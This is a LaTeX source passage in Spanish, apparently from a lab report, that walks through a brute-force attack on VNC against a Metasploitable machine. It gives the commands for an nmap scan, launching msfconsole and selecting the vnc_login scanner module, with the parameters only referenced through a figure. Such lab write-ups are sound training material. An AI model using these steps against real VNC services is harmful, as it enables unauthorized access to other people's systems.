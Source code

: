 \documentclass[a4,12pt,onecolum]{article}
\begin{document}

\subsection{VNC por fuerza bruta}
A continuación, se muestra un ataque al servicio VNC.
\begin{itemize}
	\item Realizamos un escaneo de puertos para verificar que el de VNC está abierto. Con NMAP se ve claramente, indica el nombre de servicio.
	\begin{verbatim}
		$ sudo nmap metasploitable
	\end{verbatim}

	\item Accedemos a la consola de Metasploit.
		\begin{verbatim}
			$ sudo msfconsole
		\end{verbatim}

	\item Realizamos una búsqueda de los módulos relativos a VNC.
		\begin{verbatim}
			msf > search vnc
		\end{verbatim}

	\item Utilizaremos el módulo \emph{vnc\_login}, lo selecionamos.
		\begin{verbatim}
			msf > use auxiliary/scanner/vnc/vnc_login
		\end{verbatim}

	\item Fijamos los parámetros del ataque. Figura \ref{fig:vnc1}.

\begin{figure}[htbp]
\centering
\includegraphics[width=1.0\textwidth]{./images/vnc/parametros_ataque_vnc.png}
\caption{Parámetro ataque VNC.}
\label{fig:vnc1}
\end{figure}

\end{itemize}
\end{document}
